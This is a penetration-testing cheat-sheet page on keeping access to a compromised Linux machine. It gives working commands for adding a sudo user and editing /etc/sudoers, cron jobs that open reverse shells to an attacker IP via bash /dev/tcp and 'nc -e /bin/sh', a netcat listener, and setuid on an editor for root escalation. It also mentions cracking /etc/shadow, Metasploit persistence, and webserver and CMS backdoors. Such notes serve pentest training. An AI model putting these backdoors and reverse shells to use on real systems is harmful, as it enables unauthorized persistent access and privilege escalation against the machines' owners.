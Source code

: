 # Persistence

So if you manage to compromise a system you need to make sure that you do not lose the shell. If you have used an exploit that messes with the machine the user might want to reboot, and if the user reboots you will lose your shell.

Or, maybe the way to compromise the machine is really complicated or noisy and you don't want to go through the hassle of doing it all again. So instead you just create a backdoor that you can enter fast and easy.

## Create a new user

The most obvious, but not so subtle way is to just create a new user \(if you are root, or someone with that privilege\) .

```
adduser pelle
adduser pelle sudo
```

Now if the machine has `ssh` you will be able to ssh into the machine.

On some machines, older Linux I think, you have to do

```
useradd pelle
passwd pelle
echo "pelle    ALL=(ALL) ALL" >> /etc/sudoers
```

## Crack the password of existing user

Get the `/etc/shadow` file and crack the passwords. This is of course only persistent until the user decides to change his/her password. So not so good.

## SSH key

Add key to existing ssh-account.

## Cronjob NC

Create cronjob that connects to your machine every 10 minutes. Here is an example using a bash-reverse-shell. You also need to set up a netcat listener.

Here is how you check if cronjob is active

```
service crond status
pgrep cron
```

If it is not started you can start it like this

```
service crond status
/etc/init.d/cron start
```

```
crontab -e
*/10 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196
```

```
/10 * * * * nc -e /bin/sh 192.168.1.21 5556
```

Listener

```
nc -lvp 5556
```

Sometimes you have to set the user

```
crontab -e
*/10 * * * * pelle /path/to/binary
```

More here: [http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html](http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html)

## Metasploit persistence module

Create a binary with malicious content inside. Run that, get meterpreter shell, run metasploit persistence.

[https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/](https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/)

If you have a meterpreter shell you can easily just run `persistence`.

## Backdoor in webserver

You can put a cmd or shell-backdoor in a webserver.

Put backdoor on webserver, either in separate file or in hidden in another file

## Admin account to CMS

Add admin account to CMS.

## Mysql-backdoor

Mysql backdoor

## Hide backdoor in bootblock

## Nmap

If the machine has nmap installed:

[https://gist.github.com/dergachev/7916152](https://gist.github.com/dergachev/7916152)

## Setuid on text-editor

You can setuid on an editor. So if you can easily enter as a www-data, you can easily escalate to root through the editor.

With `vi` it is extremely easy. You just run `:shell`, and it gives you a shell.

```
# Make root the owner of the file
chown root myBinary

# set the sticky bit/suid
chmod u+s myBinary
```

## References

Read this  
[https://gist.github.com/dergachev/7916152](https://gist.github.com/dergachev/7916152)

This is a creat introduction  
[http://www.dankalia.com/tutor/01005/0100501002.htm](http://www.dankalia.com/tutor/01005/0100501002.htm)

